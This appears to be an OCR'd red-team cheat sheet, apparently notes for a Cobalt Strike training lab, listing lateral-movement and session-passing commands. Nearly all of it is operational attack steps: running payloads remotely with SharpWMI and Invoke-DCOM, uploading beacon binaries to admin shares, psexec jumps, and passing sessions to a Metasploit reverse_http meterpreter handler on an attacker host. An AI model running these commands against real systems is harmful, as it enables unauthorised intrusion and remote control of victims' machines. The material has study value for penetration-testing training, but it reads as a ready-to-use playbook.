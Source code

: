 # Using SharpWMI
beacon> execute-assembly c:\Tools\Ghostpack-CompiledBinaries\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_beacon2.exe"
beacon> link WINTERFELL msagent_eb

#-------------------------------------------------------------------------------------
# Executing .Net binary remotely
## Some of Seatbelt's commands can also be run remotely, which can be useful enumerating its configurations and defences before jumping to it.
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web

#--------------------------------------------------------------------------------------
# Invoke DCOM (better opsec) (Requires TGS for RPCSS)
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload c:\Payloads\smb_x64.exe
beacon> powerpick Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
beacon> link web.dev.cyberbotic.io agent_vinod

#--------------------------------------------------------------------------------------
## NOTE: While using remote-exec for lateral movement, kindly generate the windows service binary as psexec creates a windows service pointing to uploaded binary for execution

Session Passing

# CASE 1: Beacon Passing (Within Cobalt Strike - Create alternate HTTP beacon while keeping DNS as lifeline)
beacon> spawn x64 http

# CASE 2: Foreign Listener (From CS to Metasploit - Staged Payload - only x86 payloads)
# Setup Metasploit listener
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
# Setup a Foreign Listener in cobalt strike with above IP & port details
# Use Jump psexec to execute the beacon payload and pass the session
beacon> jump psexec Foreign_listener
beacon> spawn x86 Foreign_listener
